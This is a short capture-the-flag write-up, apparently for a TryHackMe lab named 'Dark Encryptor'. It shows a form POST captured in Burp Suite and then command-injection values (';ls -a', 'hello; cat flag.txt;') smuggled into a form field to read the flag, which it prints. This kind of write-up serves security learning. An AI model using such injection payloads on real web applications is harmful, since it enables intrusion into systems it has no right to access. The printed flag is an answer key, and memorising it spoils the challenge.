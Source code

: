 ## Dark Encryptor

> A web app. A POST form. A backend that trusted its users too much.

![Challenge](https://github.com/user-attachments/assets/0b7f102b-c50a-4c42-ba2a-8c0410ef03d4)


---

### Look around

After navigating to the target web server hosted at ```http://10.10.132.71:5000```, I opened Burp Suite and enabled Intercept to capture the form submission request. Here's what I saw:

![Webapp page](https://github.com/user-attachments/assets/01e15f07-adb3-41de-b05c-87ac0734ca7c)


```bash
POST / HTTP/1.1
Host: 10.10.132.71:5000
Content-Length: 44
Cache-Control: max-age=0
Accept-Language: en-GB,en;q=0.9
Origin: http://10.10.132.71:5000
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.10.132.71:5000/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

text_input=hello%0D%0A&recipient=NullPhantom

```

---

### Testing for Injection

After playing around with BurpeSuite I was able to get a response with ```;ls -a``` just testing the waters, I injected another command to read any file called flag.txt

```bash
text_input=hello; cat flag.txt;&recipient=NullPhantom
```

![BP Command](https://github.com/user-attachments/assets/7f20575d-3c0f-41f5-8c18-f9092a0a1133)

---

### Response
The server responded successfully and embedded the result directly in the HTML response. Nestled in the page was a PGP message block — and right beneath it, a plaintext flag!

![response from BP](https://github.com/user-attachments/assets/c48dacbc-d854-4dfd-a41c-8ad8885916dc)

THM{pgp_cant_stop_me}

---
